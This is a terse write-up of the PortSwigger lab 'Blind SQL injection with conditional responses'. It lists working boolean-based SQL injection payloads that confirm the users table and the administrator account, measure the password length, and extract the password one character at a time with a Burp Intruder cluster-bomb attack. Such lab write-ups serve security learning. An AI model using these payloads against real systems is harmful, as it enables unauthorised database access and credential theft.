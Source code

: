 # Blind SQL injection with conditional responses
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

Step - 1
--------
'
-
Content Length Change
Single Quotes

Step - 2
--------
' AND '1'='1
------------
NO MySQL

Step - ?
--------
' AND (SELECT 'a' FROM users LIMIT 1)='a
----------------------------------------
Table Name: users (Just Confirm)

Step - ?
--------
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
---------------------------------------------------------------
Column Name: username (Just Confirm)
username Value: administrator (Just Confirm)

Step - 3
--------
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
---------------------------------------------------------------------------------------
Content Length Change
password Length: 20

Step - 4
--------
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
---------------------------------------------------------------------------------------
Attack Type: Cluster bomb
Payload Set 1: 1-20
Payload Set 2: a-z
